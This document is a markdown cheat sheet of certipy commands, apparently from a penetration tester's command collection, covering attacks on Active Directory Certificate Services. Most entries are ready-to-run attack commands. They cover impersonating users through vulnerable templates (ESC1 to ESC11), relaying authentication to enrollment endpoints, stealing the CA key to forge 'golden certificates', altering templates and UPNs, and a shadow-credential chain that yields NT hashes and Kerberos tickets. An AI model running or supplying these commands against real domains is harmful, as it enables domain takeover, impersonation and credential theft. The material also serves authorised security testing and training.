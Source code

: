 # certipy

% adcs, certificate, pki, windows, Active directory, template, shadow credential
#plateform/linux #target/remote #cat/AD/RECON

## enum -  list enabled certificate templates 
```
certipy find -enabled  -hide-admins -u <user>@<domain> -p '<password>' -dc-ip <dc_ip> [-stdout]
```

## enum - list enabled certificate templates (socks)
add CA to /etc/hosts
```
certipy find -enabled -hide-admins -u <user>@<domain> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - list vulnerable certificate templates 
```
certipy find -vulnerable -hide-admins -u <user>@<domain> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - list vulnerable certificate templates (socks)
add CA to /etc/hosts
```
certipy find -vulnerable -hide-admins -u <user>@<domain> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp [-stdout]
```

## enum - enumerate to bloodhound (socks)
```bash
certipy find -enabled  -u <user>@<domain> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -old-bloodhound
```

## req - request certificate (v1)
```
certipy req -u <user>@<domain> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template> 
```

## req - request certificate (v2)
```
certipy req -u <user>@<domain> -p '<password>' -target-ip <ca_ip>  -ca <ca_name> -template <template> 
```


## req - retrieve approved request 
```
certipy req -u <user>@<domain> -p '<password>' -target-ip <ca_ip>  -ca <ca_name> -retrieve <id>
```

## cert - extract cert from pfx
#plateform/linux #target/remote #cat/UTILS
```
certipy cert -pfx <pfx> -nokey -out <file>.crt -password <password|jubeaz>
```

## cert - extract key from pfx
```
certipy cert -pfx <pfx> -nocert -out <file>.key -password <password|jubeaz>
```

## cert - create pfx from cert
#plateform/linux #target/remote #cat/UTILS
```
certipy cert -key <key_file>  -cert <cert_file>  -export -out <pfx_file>
```

## auth - authenticate with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type ======> keep trying 
```
certipy auth -pfx <pfx-file>  -domain <domain> -username <user> -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp 
```

## auth - authenticate through LDAP (Schannel) with pfx certificate
#plateform/linux #target/remote #cat/CONNECT
```
certipy auth -pfx <pfx-file> -dc-ip <dc_ip> -ldap-shell
```

## Golden Certificate - steal CA certificate and private key
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -backup -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name>
```

## Golden Certificate - forge certificate
#plateform/linux #target/remote #cat/ATTACK
```
certipy forge -ca-pfx <pfx-file> -upn <user>@<domain> -crl ldap://<dc_ip>:389
```

## req - request certificate for another user - ESC1 - ESC6
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template>  -upn <targeted-user>@<domain>
```

## req - request certificate on behalf of with Certificate Request Agent certificate - ESC3
#plateform/linux #target/remote #cat/ATTACK
```
certipy req -u <user>@<domain> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template> -on-behalf-of '<NetBIOS-domain-name>\<targeted-user>' -pfx <pfx-file>
```

## template - modify template in order to make it vulnerable to ESC1 - ESC4
#plateform/linux #target/remote #cat/ATTACK
```
certipy template -u <user>@<domain> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -template <template> -save-old
```

## ca - Issue certificate for specific request id - ESC7
#plateform/linux #target/remote #cat/ATTACK
```
certipy ca -u <user>@<domain> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -issue-request <csr-id>
```

## relay - relay authentication to CA Web Enrollment - ESC8
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -target <ca_ip>  -template <template>
```

## relay - relay authentication to RPC Enrollment - ESC11
#plateform/linux #target/remote #cat/ATTACK
```
certipy relay -target "rpc://<ca_name>.<domain>" -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -ca <ca_name> -template <template>
```

## account - Modify user upn to another one - ESC9 - ESC10
#plateform/linux #target/remote #cat/ATTACK
```
certipy account update -u <user>@<domain> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -user <targeted-user> -upn <target_upn>
```


## account - add computer
#plateform/linux #target/remote #cat/ATTACK
```
certipy account create -u <user>@<domain> -p '<password>' -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp  -user user <computer_name> -dns <fqdn>
```


## shadow - get NT Hash using Shadow Credential
#plateform/linux #target/remote #cat/ATTACK
Full Chain exploit of Shadow Credential: Create a Key Credential, Authenticate to get NT hash and TGT, and remove the Key Credential
```
certipy shadow auto -u <user>@<domain> -p '<password>' -account <targeted-user>  -dc-ip <dc_ip> -ns <dc_ip> -dns-tcp 
```